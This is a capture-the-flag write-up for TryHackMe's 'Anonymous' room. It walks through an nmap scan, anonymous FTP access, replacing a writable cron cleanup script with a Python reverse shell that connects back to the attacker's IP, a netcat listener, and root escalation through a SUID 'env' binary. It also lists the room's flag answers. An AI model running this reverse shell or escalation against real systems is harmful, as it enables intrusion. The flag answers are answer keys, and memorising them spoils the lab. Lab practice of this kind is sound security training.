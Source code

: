# [Anonymous](https://tryhackme.com/room/anonymous)

> Not the hacking group

## Scanning

scan carefully the target

```
nmap -sS -sV -sC -Pn 10.10.185.190
```

![image](https://user-images.githubusercontent.com/90561566/230727292-78b11923-d62d-423a-8617-5484fa039deb.png)

interesting, a huge information here

+ we have a ftp server allowed anonymous login, even writable permission
+ a samba server on windows 6.1

## Enumeration

connect to ftp server

```
ftp 10.10.185.190
anonymous
anonymous
```

![image](https://user-images.githubusercontent.com/90561566/230727476-131f2d57-23a8-4d7e-b2aa-314d448f29a2.png)

```
ls
cd scripts
ls
```

![image](https://user-images.githubusercontent.com/90561566/230727533-2d61c444-42c3-44e7-9323-35ff936a4522.png)

get all file to local machine for further research

```
mget *
```

![image](https://user-images.githubusercontent.com/90561566/230727694-34a3d34a-d9c2-4147-ae36-d7983bd5df95.png)

![image](https://user-images.githubusercontent.com/90561566/230727729-360bc42a-8925-4fe3-b0b9-e64fabfdf286.png)

![image](https://user-images.githubusercontent.com/90561566/230727742-bd6d4246-5503-42a4-9ba2-f97141b32f73.png)

## Exploitation

it seem a cron jobs for auto cleanup scripts and all of it will be save to a log file

because we have wrirable permission, so i can change to my command

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.43.204",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```
put clean.sh
```

and on our machine, open a netcat listener

```
nc -vlnp 1234
```

update terminal

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image](https://user-images.githubusercontent.com/90561566/230728856-ce90219f-84b8-4a8d-bb95-5ec080f7a73e.png)

```
cat user.txt
```

![image](https://user-images.githubusercontent.com/90561566/230728970-a995a475-612f-4eef-9cf3-8ddbbc980bd3.png)

| Flag | user.txt |
| --- | --- |
| Answer | 90d6f992585815ff991e68748c414740 |

## Privilege Escalation

find files with SUID bit

```
find / -type f -perm -04000 -ls 2>/dev/null
```

i found `env` seem good, at GTFOBins i see the exploitation

```
env /bin/sh -p
cat /root/root.txt
```

![image](https://user-images.githubusercontent.com/90561566/230729263-623d8d49-0395-489d-a2b4-797e51ce026a.png)

| Flag | root.txt |
| --- | --- |
| Answer | 4d930091c31a622a7ed10f27999af363 |
